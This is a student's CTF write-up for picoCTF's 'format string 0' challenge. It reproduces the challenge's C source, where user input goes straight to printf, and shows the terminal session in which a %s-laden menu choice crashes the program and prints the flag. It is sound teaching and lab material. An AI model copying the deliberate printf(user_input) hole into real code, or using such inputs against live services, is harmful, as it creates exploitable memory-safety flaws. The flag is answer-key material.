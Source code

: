 # format string 0
flag : picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_dc0f36c4}

## My Approach
Relatively simple.
- I launched instance and copied the link "nc mimas.picoctf.net 60075" onto my terminal and pressed enter
- Then I was asked to input one of the three given choices, honestly went ahead and tried a cariety of combinations
- got the flag
This was the code I got :
```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 32
#define FLAGSIZE 64

char flag[FLAGSIZE];

void sigsegv_handler(int sig) {
    printf("\n%s\n", flag);
    fflush(stdout);
    exit(1);
}

int on_menu(char *burger, char *menu[], int count) {
    for (int i = 0; i < count; i++) {
        if (strcmp(burger, menu[i]) == 0)
            return 1;
    }
    return 0;
}

void serve_patrick();

void serve_bob();


int main(int argc, char **argv){
    FILE *f = fopen("flag.txt", "r");
    if (f == NULL) {
        printf("%s %s", "Please create 'flag.txt' in this directory with your",
                        "own debugging flag.\n");
        exit(0);
    }

    fgets(flag, FLAGSIZE, f);
    signal(SIGSEGV, sigsegv_handler);

    gid_t gid = getegid();
    setresgid(gid, gid, gid);

    serve_patrick();
  
    return 0;
}

void serve_patrick() {
    printf("%s %s\n%s\n%s %s\n%s",
            "Welcome to our newly-opened burger place Pico 'n Patty!",
            "Can you help the picky customers find their favorite burger?",
            "Here comes the first customer Patrick who wants a giant bite.",
            "Please choose from the following burgers:",
            "Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe",
            "Enter your recommendation: ");
    fflush(stdout);

    char choice1[BUFSIZE];
    scanf("%s", choice1);
    char *menu1[3] = {"Breakf@st_Burger", "Gr%114d_Cheese", "Bac0n_D3luxe"};
    if (!on_menu(choice1, menu1, 3)) {
        printf("%s", "There is no such burger yet!\n");
        fflush(stdout);
    } else {
        int count = printf(choice1);
        if (count > 2 * BUFSIZE) {
            serve_bob();
        } else {
            printf("%s\n%s\n",
                    "Patrick is still hungry!",
                    "Try to serve him something of larger size!");
            fflush(stdout);
        }
    }
}

void serve_bob() {
    printf("\n%s %s\n%s %s\n%s %s\n%s",
            "Good job! Patrick is happy!",
            "Now can you serve the second customer?",
            "Sponge Bob wants something outrageous that would break the shop",
            "(better be served quick before the shop owner kicks you out!)",
            "Please choose from the following burgers:",
            "Pe%to_Portobello, $outhwest_Burger, Cla%sic_Che%s%steak",
            "Enter your recommendation: ");
    fflush(stdout);

    char choice2[BUFSIZE];
    scanf("%s", choice2);
    char *menu2[3] = {"Pe%to_Portobello", "$outhwest_Burger", "Cla%sic_Che%s%steak"};
    if (!on_menu(choice2, menu2, 3)) {
        printf("%s", "There is no such burger yet!\n"); 
        fflush(stdout);
    } else {
        printf(choice2);
        fflush(stdout);
    }
}
```
too long, let's zoom down on one part
```

void sigsegv_handler(int sig) {
    printf("\n%s\n", flag);
    fflush(stdout);
    exit(1);
}
.
.
.
fgets(flag, FLAGSIZE, f);
    signal(SIGSEGV, sigsegv_handler);
```
from this section of the code I kind of realise that I need some segmentation fault to occur (again) for my flag to be printed.   
Took the hint given which said that this challenge is about format string vulnerabilities.     
So I asked chatgpt to point out where in the code are we focussing on format specifiers and that causing an error.

n this code, the section involving format specifiers is particularly present in the printf statements that print the user’s
burger choice. Specifically, this line in serve_patrick:     
```
int count = printf(choice1);
```
and this line in serve_bob:       
```
printf(choice2);
```
These lines use the printf function to output choice1 and choice2 directly, without specifying a format string (like "%s"). This can 
cause a format string vulnerability if the input contains format specifiers (such as %s, %d, etc.). In this case, any % in the user's
input could lead to unintended behavior. This exact unintended behaviour is the segmentation fault I need to get my flag.


## Terminal Output
```
avantikasanyal@LAPTOP-CFRE3HMA:~$ nc mimas.picoctf.net 60075
Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
Enter your recommendation: Gr%114d_Cheese
Gr                                                                                                           4202954_Cheese
Good job! Patrick is happy! Now can you serve the second customer?
Sponge Bob wants something outrageous that would break the shop (better be served quick before the shop owner kicks you out!)
Please choose from the following burgers: Pe%to_Portobello, $outhwest_Burger, Cla%sic_Che%s%steak
Enter your recommendation: Cla%sic_Che%s%steak
ClaCla%sic_Che%s%steakic_Che(null)
picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_dc0f36c4}
```

## What did I learn?
1. What are format specifiers?
           Format specifiers are placeholders in C used within functions like printf and scanf to control the type and format of
           data being output or input. They start with a percent sign (%) followed by a character that specifies the type
           of data. Format specifiers allow you to format integers, floating-point numbers, strings, characters, and more in specific ways.
2. What is a format string vulnerability?
           Format string vulnerabilities typically arise when user input is passed directly into a function without specifying a format.
           A format string vulnerability occurs when a program uses weird user input as the format string in functions like printf,
           scanf.
           When these functions take user input as the format string directly, they may interpret any % symbols in the input as format specifiers


  ## Refernces
  1. ChatGPT
  2. https://owasp.org/www-community/attacks/Format_string_attack

## Errors Made
Honestly, the options that I had to enter I jusy did hit and trial there. I entered a variety of combinations before I got the right one.
